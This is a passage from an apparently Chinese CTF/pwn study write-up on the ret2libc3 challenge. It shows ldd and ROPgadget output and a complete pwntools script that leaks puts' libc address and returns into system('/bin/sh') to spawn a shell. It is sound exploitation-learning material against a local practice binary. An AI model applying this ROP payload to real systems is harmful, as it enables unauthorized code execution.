 然后用 `puts` 输出

唔，他的wp貌似不能执行成功，这就很尴尬了。

应该是泄露没成功吧。。

由于现在是在本地跑的，libc.so应该也是本地的那种。

首先我们通过ldd命令查看现在用的是哪个libc：

```bash
➜  pwn-study ldd ret2libc3
	linux-gate.so.1 =>  (0xf7fd7000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7dfc000)
	/lib/ld-linux.so.2 (0xf7fd9000)
```

然后通过这个libc构造payload。

```
➜  pwn-study ROPgadget --binary ret2libc3 --only 'pop|ret' | grep 'ebx'
0x080486fc : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804841d : pop ebx ; ret
```

在使用本机libc和原来可能错误的wp的基础上，我勉勉强强搞出来一个还能跑的payload：

```python
from pwn import *
from LibcSearcher import LibcSearcher as LC

p = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')
libc = ELF('./libc.so.6')
puts_plt = ret2libc3.plt['puts']
gets_plt = ret2libc3.plt['gets']
main = ret2libc3.symbols['main']
puts_got = ret2libc3.got['puts']
buf2 = 0x0804A080
pop_ebx = 0x0804841d
payload = flat(
    [
        'a'*0x70,
        puts_plt,
        main,
        puts_got,
    ]
)
p.sendlineafter('Can you find it !?',payload)
puts_got = u32(p.recvline()[0:4])
base_addr = puts_got - libc.symbols['puts']
sys_addr = base_addr + libc.symbols['system']
binsh = base_addr + next(libc.search('/bin/sh'))
payload = flat(['a'*104,sys_addr,0xdeadbeef,binsh])
p.sendline(payload)
p.interactive()
```
